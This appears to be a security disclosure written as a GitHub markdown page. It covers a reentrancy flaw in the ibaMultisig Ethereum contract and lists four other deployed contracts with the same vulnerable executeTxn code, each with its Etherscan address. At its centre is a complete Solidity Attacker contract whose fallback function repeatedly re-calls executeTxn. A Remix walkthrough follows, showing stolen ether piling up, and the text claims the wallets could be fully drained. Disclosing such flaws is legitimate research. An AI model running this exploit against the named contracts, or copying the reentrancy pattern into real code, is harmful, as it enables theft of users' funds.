








### ibaMultisig


https://etherscan.io/address/0x0bb6d7baee15e56663aabd8ef0ba33b50413d46d#code


```javascript
function executeTxn(address creator, uint walletId, uint txId) onlyOwner(creator, walletId) external returns (bool){
        Wallet storage wallet = wallets[creator][walletId];
        
        Transaction storage txn = wallet.transactions[txId];
        
        /* check txn status */
        require(txn.status == TxnStatus.Pending);
        
        /* check whether wallet has sufficient balance to send this transaction */
        require(wallet.allowance >= txn.value);
        
        /* send transaction */
        address dest = txn.destination;
        uint val = txn.value;
        bytes memory dat = txn.data;
        assert(dest.call.value(val)(dat));
            
        /* change transaction's status to executed */
        txn.status = TxnStatus.Executed;

        /* change wallet's balance */
        wallet.allowance = wallet.allowance - txn.value;

        return true;
        
    }
```


The ibaMultisig contract state may change in the middle of its execution as a result of the use of a low level function with an external address in function executeTxn(). The contact use "dest.call.value(val)(dat)" to send the ether to external contract before updating the balance of the external contract .This would definitely result in a Reentrancy.


Attack vector：
```javascript
import "ibaMultisig.sol";
contract Attacker {
  address public mywalletAdder;
  ibaMultisig public mywallet;
  uint attackCount = 0;
  bytes data = new bytes(10);
  function Attacker(address _ibaMultisigAddress) {
      mywalletAdder = _ibaMultisigAddress;
      mywallet = ibaMultisig(_ibaMultisigAddress);
  }
  
  function test(address creator, bytes32 name) public returns (uint, bool)
  {
      return mywallet.getWalletId(creator,name);
  }
  function createWallet(uint approvals, address[] owners, bytes32 name) public payable returns (bool){
     mywallet.createWallet.value(msg.value)(approvals,owners,name);
     return true;
  }

  function attackWallet() public {
      
      mywallet.submitTransaction(this,this,0,1 ether,data);
      mywallet.confirmTransaction(this,0,0);
      mywallet.executeTxn(this,0,0);
  }  
  
  // fallback function 
  function () payable {
        if(msg.sender==mywalletAdder&&attackCount<5){
            attackCount+=1;
            mywallet = ibaMultisig(mywalletAdder);
            mywallet.executeTxn(this,0,0);
        }
            
  }
function wallet() constant returns(uint256 result){
        return this.balance;
    }
function kill() {
    selfdestruct(msg.sender);
}
}


```


Simulated on Remix:

<!--  -->
<p align="center">
    
    <p align="center">
        <em>Init</em>
    </p>
</p>


Fisrtly, we construct the Attacker contract with the real adderss of the ibaMultisig.


<!--  -->
<p align="center">
    
    <p align="center">
        <em>There’s no balance in the attacker wallet.</em>
    </p>
</p>


<p align="center">
    
    <p align="center">
        <em>Start the attack.</em>
    </p>
</p>


1. Call the function createWallet to get ready. 

<p align="center">
    
    <p align="center">
        <em>Pay 1 ether.</em>
    </p>
</p>

And we also pay with 1 ether.

<p align="center">
    
    <p align="center">
        <em>The wallet’s allowance before the attack</em>
    </p>
</p>
We can look for the information about the wallet which we created. The wallet’s allowance was set to be 1 ether.

<p align="center">
    
    <p align="center">
        <em>The attack transaction</em>
    </p>
</p>
2. Now we are ready to attack. We’ll call the function attackWallet. We repeat 5 times to pwn the exploit in case of out-of-gas Exception. In the detail of the transaction, it costs much more gas than normal function.

<p align="center">
    
    <p align="center">
        <em>The attack transaction</em>
    </p>
</p>

When the attack successed, there’s 6 ether in the contact. If we continue attacking the multisig , we would steal all the money they have. 


<p align="center">
    
    <p align="center">
        <em>The wallet’s allowance after the attack</em>
    </p>
</p>
And the wallet’s allowance was set to be a very large number.

This is a serious problem for digital assets.


### Similar Vulnerabilities

Other tokens found vulnerable by us are listed below. These ones have a similar code pattern.

##### Tokeneum Wallet

https://etherscan.io/address/0x0a42ef719ee77820993b27369089ae2c6bd6ced5#code


```
    function executeTxn(uint txId) onlyOwner() external returns (bool){
        
        Transaction storage txn = transactions[txId];
        
        /* check txn status */
        require(txn.status == TxnStatus.Pending);
        
        /* check whether wallet has sufficient balance to send this transaction */
        require(allowance >= txn.value);
        
        /* send transaction */
        address dest = txn.destination;
        uint val = txn.value;
        bytes memory dat = txn.data;
        assert(dest.call.value(val)(dat));
            
        /* change transaction's status to executed */
        txn.status = TxnStatus.Executed;

        /* change wallet's balance */
        allowance = allowance - txn.value;

        return true;
        
    }
```


##### HIDERA (HDR)

https://etherscan.io/address/0x96906c50c41b3252279c3e2cddc4a59493aadace#code

```
 function executeTxn(address creator, uint walletId, uint txId) onlyOwner(creator, walletId) external returns (bool){
        Wallet storage wallet = wallets[creator][walletId];
        
        Transaction storage txn = wallet.transactions[txId];
        
        /* check txn status */
        require(txn.status == TxnStatus.Pending);
        
        /* check whether wallet has sufficient balance to send this transaction */
        require(wallet.allowance >= txn.value);
        
        /* send transaction */
        address dest = txn.destination;
        uint val = txn.value;
        bytes memory dat = txn.data;
        assert(dest.call.value(val)(dat));
            
        /* change transaction's status to executed */
        txn.status = TxnStatus.Executed;

        /* change wallet's balance */
        wallet.allowance = wallet.allowance - txn.value;

        return true;
        
    }
```

 

##### Roobi Limited ERC20

https://etherscan.io/address/0xd25c6cc98cf987dbc788df34502a68ff1ac449c0#code

```
function executeTxn(uint txId) onlyOwner() external returns (bool){
        
        Transaction storage txn = transactions[txId];
        
        /* check txn status */
        require(txn.status == TxnStatus.Pending);
        
        /* check whether wallet has sufficient balance to send this transaction */
        require(allowance >= txn.value);
        
        /* send transaction */
        address dest = txn.destination;
        uint val = txn.value;
        bytes memory dat = txn.data;
        assert(dest.call.value(val)(dat));
            
        /* change transaction's status to executed */
        txn.status = TxnStatus.Executed;

        /* change wallet's balance */
        allowance = allowance - txn.value;

        return true;
        
    }
```

##### nToken

https://etherscan.io/address/0xf527bcbc84974d65d9825221e271224fd94121c1#code


```
 function executeTxn(uint txId) onlyOwner() external returns (bool){
        
        Transaction storage txn = transactions[txId];
        
        /* check txn status */
        require(txn.status == TxnStatus.Pending);
        
        /* check whether wallet has sufficient balance to send this transaction */
        require(allowance >= txn.value);
        
        /* send transaction */
        address dest = txn.destination;
        uint val = txn.value;
        bytes memory dat = txn.data;
        assert(dest.call.value(val)(dat));
            
        /* change transaction's status to executed */
        txn.status = TxnStatus.Executed;

        /* change wallet's balance */
        allowance = allowance - txn.value;

        return true;
        
    }
```
